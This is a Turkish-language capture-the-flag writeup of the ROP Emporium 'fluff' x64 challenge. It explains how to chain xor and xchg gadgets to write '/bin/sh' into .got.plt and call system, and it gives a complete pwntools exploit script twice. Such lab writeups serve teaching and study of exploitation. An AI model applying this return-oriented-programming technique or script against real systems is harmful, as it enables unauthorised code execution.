



# ROP Emporium `fluff` Writeup



x64 mimaride programımızı indirdik. Bize bu bölümün `write4` ile benzer olduğunu ancak `gadget` bulma konusunda biraz zorlanabileceğimizi belirtmiş.

Hızlıca objdump ile programımızı incelersek eğer `questionableGadgets` isimli bir fonksiyon dikkatimizi çekecektir.



Gördüğünüz üzere kullanabileceğimiz (sonu `ret` komutu ile biten) bazı işlevler/gadgetlar mevcut.

Açıklamada bize `write4` ile benzer olduğunu söylemişti. Hatırlıyacağınız üzere `write4` çözümünde `/bin/sh` komutumuzu `.got.plt` bölümünün içerisine `mov qword ptr ...` komutu ile taşımış daha sonra da `system` çağrısı ile çalıştırmıştık.

Burada da dikkat edecek olursak `0x40084e` adresinde `mov QWORD PTR` işlemi yapan bir komut var. O halde `r10` registerına `.got.plt` adresimizi ve `r11` registerımıza ise `/bin/sh` komutumuzu yazacağız.

Öncelikle `.got.plt` adresimizi `r10` registerımıza yazalım. Bunun için `pop r10` ' a ihtiyacımız var ancak direk bu işlemi gerçekleştiren bir gadget yok o yüzden dolaylı yoldan yazmamız gerekecek.

Fonksiyonumuzun içerisine bakacak olursak `xchg r11,r10` işlemi olduğunu görebiliriz. (xchg komutu r11 registerının içerisine r10 ' da ki değeri , r10 registerının içerisine r11 ' de ki değeri yazar)

O halde ilk önce `r11` içerisine `.got.plt` yazacağız ve sonra `xchg` komutu ile bunu `r10` registerına taşıyacağız. O zaman `pop r11` komutuna ihtiyacımız var ancak bu da malesef mevcut değil. Bunun içinde bir çözümümüz var elbette :) . Eğer herhangi bir değeri 0 ile `xor` işlemine sokarsanız değer değişmeyecektir. O halde `xor r11,r12` komutunu kullanabiliriz. `xor r11,r11` ile `r11` registerını sıfırlayacağız, `pop r12` komutu ile de `r12` registerına artık `.got.plt` adresimizi gireceğiz.

Birazcık uzun ve karışık oldu farkındayım. Daha iyi anlaşılması açısından hızlıca exploitimizin ilk aşamasını yazalım...

```py
# ROP Emporium fluff Exploit

from pwn import *

elf = ELF('fluff')

got_plt = p64(0x601000) # .got.plt address
system = p64(0x4005e0) # system@plt address

junk = p64(0x4141414141414141)
offset = ("A"*40).encode()
bin_sh = ("/bin/sh\x00").encode()

payload = offset
# write .got.plt address to r10
payload += p64(0x400822) # xor r11,r11 ; pop r14 ; mov edi,0x601050 ; ret
payload += junk # junk
payload += p64(0x400832) # pop r12 ; mov r13d, 0x604060 ; ret
payload += got_plt # .got.plt address -> r12
payload += p64(0x40082f) # xor r11,r12 ; pop r12 ; mov r13d, 0x604060 ; ret
payload += junk # r12 -> r11
payload += p64(0x400840) # xchg r11,r10 ; pop r15 ; mov r11d, 0x602050 ; ret
payload += junk # r11 -> r10

```

Evet tam olarak böyle bişi olması lazım. Önce `xor r11,r11` ile `r11` registerını sıfırlamış olduk. `pop r14` ' e ihtiyacımız olmadığı için `junk` girdik. Daha sonra `pop r12` ile r12 registerına `.got.plt` adresini yazabiliriz. 0 ile xor işlemine giren değer değişmeyeceği için `xor r11,r12` komutu ile aslında `r11` registerına `.got.plt` adresimizi yazmış olduk. (pop r12 ' ye bir daha ihtiyacımız olmadığı için önemsiz 8 karakter girdik). Ve son olarak `xchg r11,r10` komutu ile de `r10` içerisine adresimizi taşımış olduk. (pop 15 ' e ihtiyacımız olmadığı için önemsiz 8 karakter girdik)

Burası tamam olduğuna göre artık `r11` içerisine `/bin/sh` komutumuzu yazma çalışmalarına başlayabiliriz... Aslında az önce yazdıklarımıza bakarsak eğer r11 içerisine değer yazmak için ihtiyacımız olan şeyleri zaten bulmuşuz :D

```py
...
# write /bin/sh command to r11
payload += p64(0x400822) # xor r11,r11 ; pop r14 ; mov edi,0x601050 ; ret
payload += junk # junk
payload += p64(0x400832) # pop r12 ; mov r13d, 0x604060 ; ret
payload += bin_sh # /bin/sh command -> r12
payload += p64(0x40082f) # xor r11,r12 ; pop r12 ; mov r13d, 0x604060 ; ret
payload += junk # r12 -> r11

```

Evet çoğu gitti azı kaldı. Artık `bin_sh` komutumuzu `got_plt` adresinin içerisine taşıma vakti.

```py
...
# r11 to r10
payload += p64(0x40084e) # mov qword ptr [r10],r11 ; pop r13 ; pop r12 ; xor byte ptr [r10],r12b ; ret
payload += junk
payload += p64(0)

```

Dikkat etmemiz gereken nokta r13 ' e ihtiyacımız olmadığı için önemsiz 8 karakter verebiliyoruz ancak bizim için önemli olan r10 registerı r12b ile xor işlemine giriyor. Bu yüzden r10 registerının bozulmaması için r12b içerisinin sıfır olması yararımıza olacaktır.

Komutumuzu artık `.got.plt` içerisine yerleştirdiğimize göre `system` Fonksiyonumuzu çağırabiliriz.

```py
...
# system run /bin/sh
payload += p64(0x004008c3) # pop rdi ; ret
payload += got_plt
payload += system

```

Ve son olarak...

```py
...
# start process & send payload
e = process('./fluff')
print (e.recv)
e.sendline(payload)
e.interactive()

```

Artık çalıştırmaya hazır :)




## `Exploit`

```python
# ROP Emporium fluff Exploit

from pwn import *

elf = ELF('fluff')

got_plt = p64(0x601000) # .got.plt address
system = p64(0x4005e0) # system@plt address

junk = p64(0x4141414141414141)
offset = ("A"*40).encode()
bin_sh = ("/bin/sh\x00").encode()

payload = offset
# write .got.plt address to r10
payload += p64(0x400822) # xor r11,r11 ; pop r14 ; mov edi,0x601050 ; ret
payload += junk # junk
payload += p64(0x400832) # pop r12 ; mov r13d, 0x604060 ; ret
payload += got_plt # .got.plt address -> r12
payload += p64(0x40082f) # xor r11,r12 ; pop r12 ; mov r13d, 0x604060 ; ret
payload += junk # r12 -> r11
payload += p64(0x400840) # xchg r11,r10 ; pop r15 ; mov r11d, 0x602050 ; ret
payload += junk # r11 -> r10

# write /bin/sh command to r11
payload += p64(0x400822) # xor r11,r11 ; pop r14 ; mov edi,0x601050 ; ret
payload += junk # junk
payload += p64(0x400832) # pop r12 ; mov r13d, 0x604060 ; ret
payload += bin_sh # /bin/sh command -> r12
payload += p64(0x40082f) # xor r11,r12 ; pop r12 ; mov r13d, 0x604060 ; ret
payload += junk # r12 -> r11

# r11 to r10
payload += p64(0x40084e) # mov qword ptr [r10],r11 ; pop r13 ; pop r12 ; xor byte ptr [r10],r12b ; ret
payload += junk
payload += p64(0)

# system run /bin/sh
payload += p64(0x004008c3) # pop rdi ; ret
payload += got_plt
payload += system

# start process & send payload
e = process('./fluff')
print (e.recv)
e.sendline(payload)
e.interactive()

```
